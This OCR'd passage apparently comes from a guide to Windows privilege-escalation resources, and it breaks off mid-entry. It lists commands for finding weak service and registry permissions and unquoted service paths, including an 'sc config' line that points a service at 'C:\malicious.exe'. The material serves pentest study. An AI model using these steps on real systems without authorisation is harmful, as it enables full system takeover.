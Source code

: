        bash

    sc config vulnerable_service binpath= "C:\malicious.exe"

Searching for Vulnerable Services:

    accesschk.exe: A Sysinternals tool used to find misconfigured services by checking what accounts can start or modify services.

    bash

    accesschk.exe -uwcqv "Users" *

Registry Vulnerabilities:

    reg query <registry_path>: Queries specific registry keys to check for misconfigurations, such as weak permissions that could be exploited for privilege escalation.

    bash

        reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService"

Methodology and Tactics:
The commands focus on identifying and exploiting weak service configurations and registry settings. By reconfiguring services or exploiting weak permissions, an attacker can execute malicious code with elevated privileges, leading to full system compromise.
3. Absolomb Windows Privilege Escalation Guide

Resource: Absolomb Windows Privilege Escalation Guide

Overview:
This guide is tailored for those looking to escalate privileges on Windows systems through various techniques, including exploiting service misconfigurations, weak file permissions, and unpatched vulnerabilities.

Commands and Methodology:

    Identifying Unquoted Service Paths:
        wmic service get name,displayname,pathname,startmode: Lists all services and their paths to identify unquoted service paths, which can be exploited.

        bash

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\"

Checking User Privileges:

    whoami /priv: Lists the current user's privileges, which can help identify potential ways to escalate privileges.

    bash

    whoami /priv

Examining Service Permissions:

    sc qc <service_name>: Shows detailed configuration of a service, including its binary path, which might be vulnerable if unquoted.

    bash
